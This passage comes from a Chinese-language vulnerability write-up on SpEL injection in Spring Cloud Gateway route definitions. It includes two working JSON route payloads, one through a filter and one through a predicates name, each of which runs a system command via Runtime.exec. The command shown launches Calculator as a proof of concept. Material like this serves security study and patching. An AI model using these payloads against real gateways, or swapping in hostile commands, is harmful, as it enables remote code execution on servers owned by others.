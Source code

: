 可通过如上图中的name进行绕过name校验。

（7）通过上面的分析我们就可以通过指定的“name”参数和由“#{”起始，由“}”结束的SPEL表达式进行RCE攻击了，Payload如下：

```
/**
*对Payload中的SPEL表达式进行讲解
*由于我们这里需要通过表达式进行命令执行所以我们需要通过T(java.lang.Runtime).getRuntime().exec()的形式调用执行命令的方法。
*由于在执行命令时需要String类型的字符串将表达式传入，所以需要对表达式进行类型强制转换成String对象。
*由于在传入表达式时需要以字节流的形式传入，所以需要调用T(org.springframework.util.StreamUtils).copyToByteArray()方法。
/
{
  "id": "可任意更改（不可和之前创建的id相同）",
  "filters": [{
    "name": "👆上面截图中的任意name",
    "args": {
      "name": "可任意更改",
      //此value为弹出计算器的命令（MacOS）
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"/System/Applications/Calculator.app/Contents/MacOS/Calculator\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

（8）predicates无回显利用链（[官网](https://docs.spring.io/spring-cloud-gateway/docs/current/reference/html/#creating-and- deleting-a-particular-route)）：predicates的SPEL执行流程和filter的执行流程一致，下图为predicates的name校验匹配内容，可通过这些name对其进行命令执行，通过动态调试获取predicates的name校验机制，可根据官网中的example来构造Payload。

![](./Picture2/redicates.png)

```
/**
*对Payload中的SPEL表达式进行讲解
*由于我们这里需要通过表达式进行命令执行所以我们需要通过T(java.lang.Runtime).getRuntime().exec()的形式调用执行命令的方法。
*由于在执行命令时需要String类型的字符串将表达式传入，所以需要对表达式进行类型强制转换成String对象。
*由于在传入表达式时需要以字节流的形式传入，所以需要调用T(org.springframework.util.StreamUtils).copyToByteArray()方法。
/
{
  "id": "可任意更改（不可和之前创建的id相同）",
  "predicates": [{
    "name": "👆上面截图中的任意name",
    "args": {"_genkey_0":"#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"/System/Applications/Calculator.app/Contents/MacOS/Calculator\"}).getInputStream()))}"}
  }],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```
